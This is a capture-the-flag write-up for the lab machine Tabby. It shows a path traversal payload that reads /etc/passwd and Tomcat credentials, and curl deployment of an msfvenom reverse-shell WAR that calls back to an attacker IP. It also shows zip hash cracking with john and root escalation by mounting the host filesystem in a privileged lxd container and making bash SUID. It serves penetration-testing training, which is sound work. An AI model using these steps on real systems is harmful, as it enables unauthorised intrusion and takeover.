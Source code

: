 1, Recon
port scan 
	22/tcp ssh
	80/tcp http
	8080/tcp http
web-content scan
	very sadly, we did not get anything useful and no existed sub-domain.

In the main page only have a useful url `http://megahosting.htb/news.php?file=statement`
And we successfully get the File traversal vulnerability

payload:`http://megahosting.htb/news.php?file=../../../../etc/passwd`
```
/etc/passwd
root:x:0:0:root:/root:/bin/bash
......
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

And when we come to the port 8080, there is a tomcat service 
There is some hints from index page
```
NOTE: For security reasons, using the manager webapp is restricted to users with role "manager-gui". The host-manager webapp is restricted to users with role "admin-gui". Users are defined in `/etc/tomcat9/tomcat-users.xml`.
```

After guessing around and Googling a bit, I just installed Tomcat with apt install tomcat9. Then I used find to look for tomcat-users.xml, and got two results:
```
find / -name tomcat-users.xml

/usr/share/tomcat9/etc/tomcat-users.xml
/etc/tomcat9/tomcat-users.xml
```

Taking new path to Tabby finds the file (displayed pretty in Firefox view-source):
```
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```

Then we can successfully login to admin dashboard.
And we can find the version of tomcat `Apache Tomcat/9.0.31 (Ubuntu)`
`Important: Remote Code Execution via session persistence CVE-2020-9484`

The user tomcat has admin-gui, but not manager-gui, which means I can’t access the manager webapp:
![](images/Pasted%20image%2020240909103238.png)

The tomcat user did have another permission, manager-script. This is to allow access to the text-based web service located at /manager/text. There’s a list of commands here.

Now that I have access to the manager (even if not through the GUI)
```
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list

OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

We can use msfvenom to create the reverse shell payload and we just need to upload it and exec it.
`msfvenom -p java/shell_reverse_tcp lhost=10.10.14.65 lport=443 -f war -o rev.10.10.14.65-443.war`

`curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/wither --upload-file rev.10.10.14.65-443.war `

Then by enumerate the web directory, we find a backup file and we can crack it
`zip2john 16162020_backup.zip > backup.hash`
`john backup.hash --wordlist=/usr/share/wordlists/rockyou.txt`

We get the credit `admin@it`

But there is nothing useful for us to exploit, but we can try to su  user `ash`

3, shell as root
	There is nothing for  `sudo -l`
when we check `id`
```
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
Every time, when we see the group id `4(adm)`, it means we can check the logs

And group id `lxd` is also interesting.

The basic idea is that I can create a container and mount the root file system on Tabby into the container, where I then have full access to it.

There are currently no containers on the host:
```
lxc list                                                                                                                                                           
+------+-------+------+------+------+-----------+                                        
| NAME | STATE | IPV4 | IPV6 | TYPE | SNAPSHOTS |    
+------+-------+------+------+------+-----------+ 
```

```
/snap/bin/lxc image import /dev/shm/alpine-v3.20-x86_64-20240909_1509.tar.gz --alias wither-image

lxc storage create default dir

/snap/bin/lxc init wither-image container-wither -c security.privileged=true -s default

I’ll also mount part of the host file system into the container. This is useful to have a shared folder between the two. I’ll abuse it by mounting the host system root:

lxc config device add container-wither device-wither disk source=/ path=/mnt/root

lxc start container-wither

lxc exec container-wither /bin/sh

Then we can get into the /mnt/root and check the root.txt

cd /mnt/root/usr/bin
ls -l bash
chmod 4755 bash

Then just exit the container and we can get the root bash
/bin/bash -p
```
There are a better way to get the great shell
`https://blog.m0noc.com/2018/10/lxc-container-privilege-escalation-in.html?m=1`
